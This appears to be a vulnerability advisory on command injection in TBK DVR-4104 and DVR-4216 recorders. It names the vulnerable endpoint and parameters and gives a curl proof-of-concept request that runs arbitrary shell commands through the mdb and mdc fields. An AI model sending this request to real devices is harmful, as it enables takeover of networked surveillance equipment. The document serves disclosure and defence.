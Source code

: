 # Command Injection Vulnerability in DVR Devices

## Overview

The TBK DVR devices are now found to be vulnerable to a more severe command injection. Unlike CVE-2018-9995, the newly discovered vulnerability enables execution of arbitrary commands on the device's operating system, affecting over 114,000 devices on the Internet.

![Untitled](Untitled.png)

## **Affected Devices**

- TBK DVR-4104
- TBK DVR-4216

## **CWE**

CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

## Vulnerability Details

This is achieved through a specially crafted POST request to the `/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___` endpoint. By manipulating the `mdb` and `mdc` parameters, attackers can execute shell commands, as demonstrated by the PoC.

1. The attacker sends a POST request to the vulnerable DVR device:

   ```bash
   curl "http://<dvr_host>:<port>/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=<URL_ENCODED_SHELL_COMMAND>" -H "Cookie: uid=1"
   ```

## Exploitation

### Sample 1

![Untitled](Untitled%201.png)

### Sample 2

![Untitled](Untitled%202.png)

### Sample 3

![Untitled](Untitled%203.png)

## **Impact**

The vulnerability allows unauthorized remote attackers to execute arbitrary commands on the device. This could lead to unauthorized access to device data, modification of system configurations, or a complete compromise of the device.

## **Fix Recommendation:**

- Apply available patches and updates from the device manufacturer.
